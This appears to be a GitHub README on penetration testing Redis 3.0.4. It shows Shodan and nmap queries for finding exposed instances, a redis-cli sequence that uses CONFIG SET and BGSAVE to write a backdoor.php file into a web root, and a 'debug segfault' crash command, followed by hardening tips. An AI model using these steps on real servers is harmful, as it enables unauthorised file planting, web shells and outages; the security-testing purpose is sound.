 # Redis.turb
## *Redis.io* Penetration Testing (v3.0.4)
![GitHub Logo](/Redis_Logo.jpg)
##### Intro

*Redis.io* is an open source in-memory database developed to store volatile data as messages, cache, cookie, etc.

I beg you to read [Redis.io/security](http://redis.io/topics/security) if you have any intention to setup *Redis.io* in production.

##### Discover misconfigured *Redis.io*

*Shodan* :

` { product:"Redis key-value store", port:"6379" } `

*Nmap* :

`nmap -p 6379 -n --open --script=redis-info xxx.xxx.xxx.xxx/yy`

##### Upload malicious file

Requirement : access to CONFIG and BGSAVE or SAVE
```
localhost:6379> config set dir /var/www/html
OK
localhost:6379> config get dir
1) "dir"
2) "/var/www/html"
- - - - -
localhost:6379> config set dbfilename backdoor.php
OK
localhost:6379> config get dbfilename
1) "dbfilename"
2) "backdoor.php"
- - - - -
localhost:6379> set cmd "<?php phpinfo(); ?>"
OK
localhost:6379> bgsave
Background saving started
- - - - -
-rw-r--r-- 1 redis redis 45 Sep 19 17:01 backdoor.php
```

##### Denial Of Service

```
localhost:6379> debug segfault
(9.69s)
not connected> 
```

#### Security Best Practices


##### Enable authentication

Add to **redis.conf** :

`requirepass foobabar`

Thus, run *Redis.io* with your **redis.conf** file :

`redis-server /fullpath/to/redis.conf`

##### Only bind *Redis.io* to Loopback

Add to **redis.conf** :

`bind 127.0.0.1`

Allow access only from loopback (implied that the application that needs *Redis.io* running on the same host).

##### Fuzz Redis.io with OpenRCE/Sulley and AFL
[Lighting Talk](http://slides.com/tfairane/deck/live)

##### MUST READ
http://antirez.com/news/96

